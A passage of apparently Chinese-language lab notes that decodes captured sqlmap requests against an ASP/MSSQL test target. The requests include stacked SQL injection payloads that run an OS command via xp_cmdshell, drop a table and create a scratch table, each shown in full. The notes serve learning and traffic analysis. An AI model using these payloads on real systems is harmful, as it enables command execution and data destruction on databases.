 <span data-type="text" style="color: var(--b3-font-color11);">set @uhug=ping -n 10 127.0.0.1;</span>    为变量赋值为十六进制的字符串，内容为：<span data-type="text" style="color: var(--b3-font-color11);">ping -n 10 127.0.0.1</span>。

执行系统命令

<span data-type="text" style="color: var(--b3-font-color6);">exec master..xp_cmdshell @uhug</span> 通过<span data-type="text" style="color: var(--b3-font-color6);">xp_cmdshell</span>  存储过程执行<span data-type="text" style="color: var(--b3-font-color6);">@uhug</span> 变量中的命令。

总结：向本地地址127.0.0.1发送10个ICMP请求（ping）

2. ‍

```sql
GET /less-2.asp?id=1%3BDROP%20TABLE%20sqlmapoutput-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

id=1%3BDROP%20TABLE%20sqlmapoutput--

解析：

id=1;drop table sqlmapoutput--

用于从数据库中删除名为sqlmapoutput的表。  sqlmapoutput：临时表或日志文件来存储测试过程中的数据

3. ‍

```sql
GET /less-2.asp?id=1%3BCREATE%20TABLE%20sqlmapoutput%28id%20INT%20PRIMARY%20KEY%20IDENTITY%2C%20data%20NVARCHAR%284000%29%29-- HTTP/1.1
Cache-Control: no-cache
User-Agent: sqlmap/1.8.1.6#dev (https://sqlmap.org)
Cookie: ASPSESSIONIDQSSCDRTB=JNGDBDKAMKODPPBFDLKHPKFG
Host: 192.168.100.225
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


```

解码为：

?id=1;CREATE TABLE sqlmapoutput(id INT PRIMARY KEY IDENTITY, data NVARCHAR(4000))--

解析：
